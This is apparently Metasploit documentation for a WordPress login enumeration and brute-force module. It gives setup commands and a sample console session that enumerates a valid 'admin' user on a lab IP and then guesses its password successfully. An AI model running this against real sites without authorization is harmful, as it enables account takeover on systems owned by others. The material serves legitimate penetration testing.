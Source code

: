 ## Descriptions

This auxiliary module will brute-force a WordPress installation and first determine valid usernames and then perform a password-guessing attack. WordPress and WordPress MU before 2.8.1 exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote attackers to enumerate valid usernames. NOTE: the vendor reportedly disputes the significance of this issue, indicating that the behavior exists for "user convenience."

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wordpress_login_enum```
2. Do: ```set URI [URI]```
3. Do: ```set PASS_FILE [password file]```
4. Do: ```set USER_FILE [username list file]```
5. Do: ```set RHOSTS [IP]```
6. Do: ```run```

Configure the module first by pointing it to the path of wp-login.php on the target server. Set the username and password files, set the RHOSTS value, and let it run.

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set URI /wordpress/wp-login.php
URI => /wordpress/wp-login.php
msf auxiliary(wordpress_login_enum) > set PASS_FILE /tmp/passes.txt
PASS_FILE => /tmp/passes.txt
msf auxiliary(wordpress_login_enum) > set USER_FILE /tmp/users.txt
USER_FILE => /tmp/users.txt
msf auxiliary(wordpress_login_enum) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(wordpress_login_enum) > run

[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Running User Enumeration
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'administrator'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'administrator'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'admin'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration- Username: 'admin' - is VALID
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'root'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'god'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Found 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Running Bruteforce
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Skipping all but 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:''
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'admin'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'s3cr3t'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - SUCCESSFUL login for 'admin' : 's3cr3t'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wordpress_login_enum) >
```